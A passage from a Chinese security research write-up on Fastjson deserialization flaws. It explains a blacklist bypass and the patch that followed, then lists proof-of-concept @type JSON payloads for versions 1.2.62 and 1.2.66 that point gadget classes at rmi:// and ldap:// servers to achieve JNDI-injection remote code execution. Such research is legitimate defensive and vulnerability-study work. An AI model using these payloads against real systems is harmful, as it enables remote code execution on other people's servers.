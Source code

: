 > ![image-20210819102753248](Fastjson2/image-20210819102753248.png)
>
> 而Mappings是ConcurrentMap类的，顾名思义就是在当前连接会话生效。所以我们需要在一次连接会话同时传入两个json键值对时，此次连接未断开时，继续解析第二个json键值对，然后和上文中提到的一样，在校验autotype和黑名单之前就已经return了clazz，变相绕过了黑名单，利用JNDI注入RCE。

## 补丁

黑名单多了两条，MiscCodec中将默认传入的cache变为false，checkAutoType()调整了逻辑

# 1.2.62

黑名单绕过
`json{"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"rmi://127.0.0.1:1099/exploit"}";`

# 1.2.66

## POC

```
// 需要autotype true
{"@type":"org.apache.shiro.jndi.JndiObjectFactory","resourceName":"ldap://192.168.80.1:1389/Calc"}
{"@type":"br.com.anteros.dbcp.AnterosDBCPConfig","metricRegistry":"ldap://192.168.80.1:1389/Calc"}
{"@type":"org.apache.ignite.cache.jta.jndi.CacheJndiTmLookup","jndiNames":"ldap://192.168.80.1:1389/Calc"}
{"@type":"com.ibatis.sqlmap.engine.transaction.jta.JtaTransactionConfig","properties": {"@type":"java.util.Properties","UserTransaction":"ldap://192.168.80.1:1389/Calc"}}
```

## 利用条件

autoTypeSupport属性为true才能使用。（fastjson >= 1.2.25默认为false）

# 参考

https://www.freebuf.com/vuls/276812.html

https://qiita.com/Y4er/items/f2fbd0df3d59b6aa4ee2

https://paper.seebug.org/1192/#ver1245ver1246